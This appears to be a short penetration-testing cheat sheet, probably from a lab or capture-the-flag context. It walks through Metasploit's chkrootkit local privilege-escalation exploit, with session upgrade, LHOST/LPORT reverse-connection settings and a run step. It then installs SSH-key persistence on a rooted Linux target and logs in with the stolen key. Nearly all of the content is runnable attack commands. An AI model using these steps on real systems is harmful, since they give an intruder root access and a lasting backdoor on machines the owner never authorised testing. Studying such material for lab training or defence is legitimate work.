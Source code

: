 
<h4>Exploiting chrootkit</h4>
To check the process key
```
ps aux
```
To escalate privilges using chrooktit, ensure you upgrade to a meterpreter session
```
sessions -u 1
```
Now looking for the module
```
search chrootkit
use exploit/unix/local/chkrootkit
```
Exploiting
```
set SESSION 2 (to meterpreter session)
set chkrootkit /bin/chkrootkit  (Check the path to this on the target's machine)
set LHOST
set LPORT
run
```



<h4>Linux Persistence</h4>

After getting root on the target's machine, to get persistence
```
use post/linux/manage/sshkey_persistence
set SESSION 4 (to the root meterpreter session)
set CREATESSHFOLDER true
exploit
```
To view the newly created private key that can be used to authenticate with target system
```
loot
```
Giving permission to the private key
```
chmod 0400 id_rsa
```
To authenticate as the user
```
ssh user@10.10.10.10 -i id_rsa
```


>Another way to do this is to copy the id_rsa key after getting root shell instead of using the metasploit module


